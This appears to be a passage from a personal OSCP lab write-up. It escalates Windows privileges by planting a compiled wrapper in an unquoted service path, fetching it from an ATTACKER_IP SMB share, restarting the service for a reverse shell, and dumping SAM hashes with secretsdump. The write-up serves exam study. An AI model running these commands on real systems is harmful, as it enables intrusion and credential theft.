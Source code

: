 Start a process, make a procinfo object and attach it to proc.startinfo and finally start the process

`mcs wrapper.cs`

Use SMB to transfer the compiled .exe

```
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
net use \\ATTACKER_IP\share /del
```

Copy to the directory unquoted and rename to System.exe cus thats the file being called

`sc stop SystemExplorerHelpService`

`sc start SystemExplorerHelpService`

Catch the reverse shell, we are root

`reg.exe save HKLM\SAM sam.bak`

`reg.exe save HKLM\SYSTEM system.bak`

`python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL`

<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption><p>dump user hashes using sam and system files</p></figcaption></figure>

### Conclusion

Miss Dubai, i love you. Let's go get this OSCP done asap.
